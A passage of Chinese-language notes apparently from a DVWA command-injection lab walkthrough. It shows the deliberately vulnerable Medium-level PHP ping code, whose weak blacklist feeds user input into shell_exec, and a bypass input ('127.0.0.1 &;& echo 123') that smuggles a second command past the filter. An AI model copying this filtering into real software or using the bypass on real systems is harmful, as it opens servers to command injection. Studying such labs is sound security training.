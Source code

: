 * 找到對應是 shift_jis


* 手動更改web編碼 或是安裝插件 charset之類的


<br/><br/>



# Medium 

* code:
* 過濾&&  和 ;

```php=
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```

沒過慮到的拼接符，可以繼續使用。



&;&繞過:

```cmd=
&;&  
;被轉為空 所以又變成了&&
 

1111 &;& echo 123
會失敗，原因是 && 
cmd1 失敗後不執行 cmd2


改成
127.0.0.1 &;& echo 123
成功

```